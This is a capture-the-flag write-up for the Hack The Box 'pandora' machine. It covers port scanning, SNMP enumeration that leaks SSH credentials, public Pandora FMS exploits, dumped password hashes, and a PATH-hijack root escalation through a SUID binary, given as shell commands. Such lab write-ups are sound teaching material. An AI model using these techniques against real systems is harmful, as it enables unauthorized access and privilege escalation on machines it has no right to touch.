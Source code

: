 ```yaml
---
layout: post
title: HTB - pandora
date: 2025-04-09 09:00 -0400
---
```


{{ 'pandora' | get_machine_avatar | raw }}

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 15:39 -04
Nmap scan report for 10.10.11.136
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

## main page
![panda.htb](/assets/img/pandora1.png)

Some emails and domains on the page body:
- support@panda.htb
- contact@panda.htb
- Panda.HTB

subdomain bruteforce gives nothing.
```bash
~/workspace/projects/htb/pandora » ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.panda.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.136/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.panda.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [4990/4990] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Contact seems to be the only feature that works.
Looks a lot like xss but it isn't working.
Directory listings are enabled but there is nothing interesting in it.
Nothing in the js files also.

Time to check udp.

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:13 -04
Warning: 10.10.11.136 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.16s latency).
Not shown: 65456 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 73.80 seconds
```

Cool, nmap found something.

```bash
~/workspace/projects/htb/pandora » sudo nmap -p161 --script='*snmp*' -sU $(cat ip.txt) --min-rate 10000
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:15 -04
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.26s latency).

Bug in snmp-win32-software: no string output.
PORT    STATE SERVICE
161/udp open  snmp
...
| snmp-brute:
|_  public - Valid credentials
...

Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```

Now we dump everything with: `snmpbulkwalk -c public -v2c panda.htb` and maybe there are some creds somewhere here.

These look a lot like creds.
```bash
HOST-RESOURCES-MIB::hrSWRunParameters.1086 = STRING: "-u daniel -p HotelBabylon23"
```

And that gives us the daniel shell but no user flag.
```bash
daniel@pandora:~$ cat /etc/passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

So matt is probably our next target.

Interesting files on `/var/www/pandora/pandora_console/`.
![pandora console](/assets/img/pandora4.png)

Seems to be using [pandorafms](https://github.com/pandorafms/pandorafms.git) from the Dockerfile.

Looks like there is an RCE with a public poc. [POC](https://www.exploit-db.com/exploits/50961). Doesn't seem to work.

This second one does. [POC1](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

This is both a RCE and a SQLi, that gives us the user flag.

```bash
matt@pandora:/tmp/tmp.44zbQs0ont# cat ~/user.txt
a162c***************************
```

Will try to bruteforce the hashes just in case matt's password is needed.
```bash
[*] None,admin@pandora.htb,ad3f741b04bd5880fb32b54bc4f43d6a
[*] None,daniel@pandora.htb,76323c174bd49ffbbdedf678f6cc89a6
[*] None,matt@pandora.htb,f655f807365b6dc602b31ab3d6d43acc
```

Nothing on crackstation.
![crackstation](/assets/img/pandora7.png)

Nothing on hashcat either.

There is an interesting suid binary.
```bash
262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
```

At first I thought I needed matt's password to run with sudo, but that is not the case.

Looking at ghidra we can see a `setreuid` call. That makes so matt keeps the root privilege when running without sudo.
![ghidra bin](/assets/img/pandora9.png)

And the actual bug is on `system()`. It doesn't specify a path so we can just change PATH to any script called tar.
```bash
cd $(mktemp -d)
export PATH=$(realpath .):/bin/:/usr/bin
echo 'cat /root/root.txt > /tmp/flag' > tar
chmod +x tar
/usr/bin/pandora_backup
root@pandora:/tmp/tmp.44zbQs0ont# cat ../flag
# e458b***************************
```
